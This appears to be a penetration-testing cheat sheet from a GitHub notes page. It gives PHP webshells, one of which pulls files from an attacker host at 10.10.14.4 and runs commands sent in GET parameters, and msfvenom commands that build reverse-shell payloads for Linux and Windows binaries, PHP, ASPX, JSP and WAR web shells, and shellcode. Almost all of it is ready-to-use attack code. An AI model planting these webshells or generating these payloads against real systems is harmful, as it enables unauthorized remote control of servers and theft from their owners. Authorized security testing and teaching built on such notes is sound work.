 ### PHP Webshells
``` PHP
# Basic. system() or shell_exec() or exec()
<?php system($_GET['cmd']);?>

# More functional
<?php
$ip = 'http://10.10.14.4/' # [:port] . Change this
# Upload
if (isset($_GET['fupload'])) {
    file_put_contents($_GET['fupload'], file_get_contents($ip . $_GET['fupload']));
};
# Execute code
# shell_exec() or system() or exec()
if (isset($_GET['cmd'])) {
    echo "<pre>" . exec($_GET['cmd']) . "</pre>";
};
?>
```

### Metasploit

#### System Binaries
``` bash
# Linux reverse shell - Staged
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell
# Linux reverse shell - Stageless
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell

# Windows reverse shell - Staged
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o reverse.exe
# Windows reverse shell - Stageless
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o reverse.exe
```

#### Web
``` bash
# PHP
msfvenom -p php/reverse_php 

# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o shell.aspx

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```


#### Shellcode
Select appropriate architecture
``` bash
# Linux Staged - use python or c
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f python
# Linux Stageless - use python or c
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f python

# Windows Staged - use python or c
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f python
# Windows Stageless - use python or c
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f python
```
